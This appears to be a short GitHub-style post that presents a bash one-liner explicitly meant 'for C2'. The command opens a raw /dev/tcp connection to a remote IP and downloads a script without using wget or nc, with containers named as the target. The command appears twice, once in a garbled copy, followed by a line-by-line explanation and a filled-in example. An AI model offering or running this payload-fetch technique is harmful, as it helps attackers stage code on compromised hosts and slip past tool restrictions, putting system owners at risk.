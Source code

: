 One liner bash for C2 without using any native program like wget, nc etc, esp containers. 
```bash
#bash-c "exec 3<>/dev/tcp/IP/80; echo -e GET/ youfile.sh HTTP/1.1\r\nHost; ip\r\nConnection: close\r\n\r\n' >&3; cat <&3-> yourfile.sh'
```
```bash
bash -c "exec 3<>/dev/tcp/IP/80; echo -e 'GET /yourfile.sh HTTP/1.1\r\nHost: IP\r\nConnection: close\r\n\r\n' >&3; cat <&3 > yourfile.sh"
```

## Explanation How it Work

1. **`exec 3<>/dev/tcp/IP/80`**  
   Opens a TCP connection to the specified `IP` on port `80` and assigns it to file descriptor `3`.

2. **`echo -e 'GET /yourfile.sh HTTP/1.1\r\nHost: IP\r\nConnection: close\r\n\r\n' >&3`**  
   Sends an HTTP GET request to the server.  
   - `GET /yourfile.sh HTTP/1.1`: Requests the file `yourfile.sh` using HTTP/1.1.  
   - `Host: IP`: Specifies the host (replace `IP` with the server's IP or hostname).  
   - `Connection: close`: Ensures the connection is closed after the request.  
   - `\r\n`: Represents a carriage return and newline for proper HTTP formatting.

3. **`cat <&3 > yourfile.sh`**  
   Reads the server's response from file descriptor `3` and saves it to `yourfile.sh`.


## Example

If the server IP is `192.168.1.100` and the file is `script.sh`, the command would look like this:

```bash
bash -c "exec 3<>/dev/tcp/192.168.1.100/80; echo -e 'GET /script.sh HTTP/1.1\r\nHost: 192.168.1.100\r\nConnection: close\r\n\r\n' >&3; cat <&3 > script.sh"
```



## Notes

- Replace `IP` with the actual IP address or hostname of the server.
- Replace `/yourfile.sh` with the path to the file you want to download.
- Ensure the server is running on port `80` and allows HTTP requests.
- This method only works for plain HTTP. For HTTPS, use tools like `curl` or `wget`.
Don’t forget the reactions and stars⭐️! 
They fuel my energy to post such contents🔋✨.
